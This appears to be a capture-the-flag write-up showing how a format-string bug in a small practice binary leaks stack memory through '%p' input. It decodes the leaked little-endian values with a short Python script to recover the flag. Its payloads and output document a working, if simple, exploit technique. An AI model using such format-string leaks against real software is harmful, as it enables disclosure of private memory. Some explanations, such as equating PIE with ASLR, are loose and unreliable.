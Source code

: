 because the printf didn't specify any formatting we can use for example: `%x` to print hexadecimal number but what hexadecimal would the printf print? becuase we input %x, the printf think that it needs hexadecimal number and it will grab one from the stack itself. if we put `%x %x %x %x %x` it will grab 5 hexadecimal from the stack because we didn't give the printf function to print to.  

if we run the binary it will ask for input and if we use `%p %p %p %p %p`
```code
hi, welcome to fstring!
what's your name?
%x %x %x %x %x
hello, 0x7ffc01c289e0 0x7fdebadae8c0 (nil) 0x7 (nil)
```

as you can see it will output random value from the stack. if we look carefully the readFlag function is inside the vuln function itself so the flag must be in the stack, so we just need to find where the flag is. We can use `%x` or `%p` or even `%ld`  

```code
hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7fff91459780 0x7fb7ed9758c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025

run the function again 1 more time

hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7ffc069220b0 0x7f9093e858c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025
```

as you can see the first and second output is different. This happens because the aslr is active. ASLR stands for Address Space Layout Randomization or we can use `checksec` to check it
```code
checksec example2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
PIE (Positition Independent Executable) we can see the same as ASLR so it will make our function have offset so it will behave differently everytime. But as you can see the $6$th address is the same, so maybe this is the flag?
```code
convert this to ascii 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f using python we get 0x70252070252070255 

it will give _esu{FTCc_ftnirpyllufera}zlp_p% p% p%
```

it looks like the flag but reverse, remember our machine use little endian so we must reverse the byte itself to get the correct flag. After we reverse it we get the flag
```py
flag = "0x5f6573757b465443-0x635f66746e697270-0x796c6c7566657261-0x7f7d7a6c705f"
arrflag = flag.split("-")

ans = b''
for item in arrflag:
  ans += p64(int(item, 16))

print(ans.decode())
```
and we get our desired flag: `CTF{use_printf_carefully_plz}`
